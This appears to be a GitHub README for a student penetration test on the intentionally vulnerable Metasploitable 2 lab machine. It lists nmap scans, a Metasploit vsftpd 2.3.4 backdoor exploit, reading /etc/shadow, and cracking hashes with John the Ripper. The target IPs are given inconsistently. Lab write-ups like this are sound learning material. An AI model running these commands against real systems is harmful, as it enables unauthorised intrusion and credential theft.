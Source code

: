 # Penetration-Testing-Project
Objective:
To perform a penetration test on the target system, identify vulnerabilities, exploit them, and document the process for learning purposes.

Target Information:

    IP Address: 172.28.10.11
    OS: Linux (Metasploitable 2)
    Services Detected: FTP, SSH, Telnet, Smtp, Domain, Http, Rpcind, Netbios-SSN, Microsoft-ds,Exec, Login, Shell, Rmiregistry,Ingreslock,NFS, Ccproxy-ftp, Mysq, Postgresql, Vnc, X11, IRC, ajp13

# Project Description
This project demonstrates a full penetration testing workflow conducted on the intentionally vulnerable Metasploitable 2 virtual machine. The project covers reconnaissance, exploitation, and post-exploitation steps, showcasing practical skills in vulnerability identification and exploitation.

# Technologies Used
Hyper-V Manager, Virtual box, Linux, Nmap, Metasploit, John the ripper, 
# Steps or Feautures 
1. Reconnaissance (Information Gathering)

    Scanned the target system for open ports and services using nmap.

nmap -sS -Pn 178.28.10.11

Identified service versions and operating system details.

![nmap scan](Nmap_scan.png) ![nmap scan](services.png) 

nmap -sV -O 178.28.10.11
2. Vulnerability Identification<

    Researched vulnerabilities associated with the detected services using:
        searchsploit for local exploit searches:

        searchsploit vsftpd 2.3.4

        Online databases such as Exploit-DB and CVE Details.

3. Exploitation

    Used Metasploit Framework to exploit the vsftpd 2.3.4 backdoor vulnerability:
        Launched Metasploit:

msfconsole

Selected the exploit:

use exploit/unix/ftp/vsftpd_234_backdoor

Configured the exploit:

        set RHOST 172.28.10.11
        exploit

    Successfully gained shell access to the target system.

![exploit with metasploit](exploit.png)

4. Post-Exploitation

    Explored the system to gather sensitive information:
        Extracted /etc/shadow to obtain password hashes:

    cat /etc/shadow

Initiated password cracking using John the Ripper:

    john --wordlist=/usr/share/wordlists/rockyou.txt password_hash.txt

![password](passwordxtrat.png)

5. Documentation and Reporting

    Documented all findings, including vulnerabilities exploited, tools used, and commands executed.
    Provided recommendations to mitigate identified weaknesses.


Commands Used

Include a dedicated section in your GitHub for all commands used during the test. Here’s an example:

## Commands Used

### Reconnaissance
- `nmap -sS -Pn 172.28.11.10 `: Stealth scan to discover open ports.
- `nmap -sV -O 172.28.11.10`: Detect service versions and OS.

### Exploitation
- `msfconsole`: Launch Metasploit.
- `use exploit/unix/ftp/vsftpd_234_backdoor`: Select the exploit.
- `set RHOST 172.28.10.11`: Set the target IP.
- `exploit`: Execute the exploit.

### Post-Exploitation
- `cat /etc/shadow`: Extract password hashes.
- `john --wordlist=/usr/share/wordlists/rockyou.txt password_hash.txt`: Crack passwords.

